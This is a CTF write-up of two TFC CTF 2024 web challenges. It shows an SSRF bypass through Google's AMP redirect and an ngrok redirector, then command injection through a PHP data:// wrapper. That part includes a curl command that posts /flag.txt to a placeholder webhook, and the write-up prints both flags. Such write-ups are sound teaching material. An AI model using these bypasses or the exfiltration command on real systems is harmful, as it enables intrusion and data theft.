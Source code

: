 ```yaml
---
title: "TFC CTF 2024: SURFING & SAFE_CONTENT"
description: "TFC CTF 2024 Web Writeup"
date: 2024-08-04
tags: ['ssrf','php']
image: './logo.png'
authors: ['p4rr4']
---
```


## Intro

This is the writeup for two of the web challenges presented in TFC CTF 2024. As I could not dedicate much time to it, I managed to solve 3 out of the 8 web challenges available. The web challenges were good quality, so kudos to the authors 😊.

## SURFING (Easy)

> My friend wanted a site on which he could steal other people's photos. Can you break into it ?

### Description

We are not given the source code of the challenge. The website is pretty simple:

![](./website.png)

We just have a functionality to visit URLs of our choice. It states that only Google URLs and PNG files are allowed to be visited. Let's see what happens if we do not meet these conditions:

![](./error.png)

Now we have a bit more information. The URL we introduce must start with `http://google.com/`, so let's introduce it:

![](./response.png)

As we can see, we get the HTML of the response. If we take a look at it, we can see that it responded with a `404 Not Found` error, as it tried to visit `http://google.com/.png` (which does not exist). Also, when looking at the website's source code, we can notice an interesting HTML comment:

```html
<!--  Reminder ! Change creds for admin panel on localhost:8000  ! -->
```

Enough to work with, let's move on to the solution.

### Solution

At this point, we can assume that we have to achieve SSRF to visit the admin panel and that this panel will have very weak credentials. However, the URLs we introduce must begin with `http://google.com/`, so, how do we get around this? Zero-day in Google?

Well, not this time. I remember reading that `google.com` could be used to perform URL redirections. For example:

```
http://google.com/url?q=http://example.com
```

The above link will redirect us to `http://example.com`, but it will prompt us with the following warning:

![](./warning.png)

So this payload will not work for us. After some research, I finally found what I was looking for:

```
http://google.com/amp/s/example.com/
```

This time, it performed the redirection without any warnings. Let's try it in the challenge:

![](./error2.png)

Again, we get a `404 Not Found`. The challenge seems to be appending `.png` to the end of the URL, without checking the type of content being accessed. We can easily bypass this by putting a URL-encoded `#` at the end of our URL, thus making `.png` a URL fragment:

![](./nice.png)

It works! However, accessing `localhost:8000` with this approach (`http://google.com/amp/s/localhost:8000/%23`), did not work (don't know why :D). So, what I did was set up a simple Flask app with `ngrok` to redirect it again (it also worked with URL shorteners):

```python
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/')
def home():
    return redirect('http://localhost:8000/')

if __name__ == '__main__':
    app.run(debug=True)
```

And now, when visiting `http://google.com/amp/s/<NGROK_URL>/%23`, it performed the redirect without any problems and we can now take a look at the source code of the admin panel:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Admin Login</title>
</head>
<body>
    <form action="admin.php" method="get">
        <label for="username">Username:</label>
        <input type="text" id="username" name="admin" required>

        <label for="password">Password:</label>
        <input type="password" id="password" name="admin" required>
        <br>
        <input type="submit" value="Login">
    </form>
</body>
</html>
```

Both the username and the password are `admin` and they are passed as GET parameters, so we just need to change our Flask app so that it redirects to `http://localhost:8000/admin.php?username=admin&password=admin` and get the flag!

```
Login successful. Welcome, admin!
Flag is TFCCTF{18fd102247cb73e9f9acaa42801ad03cf622ca1c3689e4969affcb128769d0bc}
```

## SAFE_CONTENT (Medium)

> Our site has been breached. Since then we restricted the ips we can get files from. This should reduce our attack surface since no external input gets into our app. Is it safe ?

> For the source code, go to /src.php 

### Description

The website is very similar to the one above:

![](./fetcher.png)

Additionally, we are given the source code:

```php
<?php

function isAllowedIP($url, $allowedHost) {
    $parsedUrl = parse_url($url);
    
    if (!$parsedUrl || !isset($parsedUrl['host'])) {
        return false;
    }
    
    return $parsedUrl['host'] === $allowedHost;
}

function fetchContent($url) {
    $context = stream_context_create([
        'http' => [
            'timeout' => 5 // Timeout in seconds
        ]
    ]);

    $content = @file_get_contents($url, false, $context);
    if ($content === FALSE) {
        $error = error_get_last();
        throw new Exception("Unable to fetch content from the URL. Error: " . $error['message']);
    }
    return base64_decode($content);
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['url'])) {
    $url = $_GET['url'];
    $allowedIP = 'localhost';
    
    if (isAllowedIP($url, $allowedIP)) {
        $content = fetchContent($url);
        // file upload removed due to security issues
        if ($content) {
            $command = 'echo ' . $content . ' | base64 > /tmp/' . date('YmdHis') . '.tfc';
            exec($command . ' > /dev/null 2>&1');
            // this should fix it
        }
    }
}
?>
```

We have a pretty obvious objective, which is command injection. To reach it, we have to bypass a very poor URL check that just checks the host to be `localhost` and then make our fetched content be double base64-encoded so that the command is executed without any errors.

### Solution

The `isAllowedIP` function uses `parse_url` to check the URL's host. However, it does not check the protocol, so PHP wrappers such as `php://localhost` or `data://localhost` are valid. The first of these will not work, but the `data://` wrapper does not check the content type: `data://text/plain` and `data://localhost/plain` will do the same. We can abuse this to achieve command injection with the following payload:

```bash
# payload
a | curl -X POST -d @/flag.txt <WEBHOOK>
```

Now we double base64-encode it (the PHP wrapper decodes it once and then `fetchContent` decodes it again in the return) and we send the following URL to the challenge:

```
data://localhost/plain;base64,<DOUBLE_BASE64_PAYLOAD>
```

And get the flag in our webhook.

Flag: `TFCCTF{0cc5c7c5be395bb7e7456224117aed15b7d7f25933e126cecfbff41bff12beeb}`